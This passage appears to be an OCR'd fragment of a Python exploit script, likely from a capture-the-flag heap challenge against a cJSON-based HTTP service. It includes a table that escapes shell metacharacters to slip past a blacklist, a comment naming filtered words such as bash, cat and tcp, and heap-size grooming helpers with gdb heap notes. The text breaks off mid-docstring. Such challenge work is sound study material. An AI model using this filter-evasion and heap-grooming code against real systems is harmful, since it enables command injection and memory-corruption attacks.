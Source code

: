 ```plain

    b";": b"\\u003b",
    b"$": b"\\u0024",
    b"|": b"\\u007c",
    b"`": b"\\u0060",
    b"&": b"\\u0026",
    b"#": b"\\u0023",
    b"(": b"\\u0028",
    b")": b"\\u0029",

    b"\x00": b"\\u0000",
    # bash, flag, cat, tcp
}



def get_raw_payload(payload):
    # breakpoint()
    raw_payload = b""
    for i in payload:
        c = chr(i).encode("latin")
        if c in blacklist_dict:
            raw_payload += blacklist_dict[c]

        else:
            raw_payload += c

    return raw_payload

def calc_array_pair_cnt(required_size, message_len):
    align_up_0x10 = lambda x: (x + 0x0f) & ~0xf
    remain_chunk_length = lambda x: (x & 0x0f) // (8 + 1) * 0x10

    string_len = lambda n: 2 * n + message_len # 1,1,
    calc = lambda n: 0x50 * n + align_up_0x10(string_len(n)) + remain_chunk_length(string_len(n))

    for i in range(0, 0x1000):
        size = calc(i)
        if size < required_size:
            continue
        elif size == required_size:
            return (i, 0, 0)
        else:
            # breakpoint()
            return (i - 1, -1, calc(i - 1))
    else:
        raise Exception("required size too big")



def generate_array_payload(required_size, message_len):
    '''
    gdb-peda$ parseheap
    addr      ... size ...
    0x1cf0000 ... 0x?? ...    strlen(http_message) // 
    0x1cf0090 ... 0x50 ...    cJSON_Object root     
    0x1cf00e0 ... 0x50 ...    cJSON_String data string
    0x1cf0130 ... 0x20 ...    strlen("data")
    0x1cf0150 ... 0x60 ...    strlen(data string)
    0x1cf01b0 ... 0x50 ...    cJSON_String  timestamp
    0x1cf0200 ... 0x20 ...    strlen("timestamp")
    0x1cf0220 ... 0x50 ...    cJSON_Array timestamp
    0x1cf0270 ... 0x20 ...    strlen("timestamp")
```
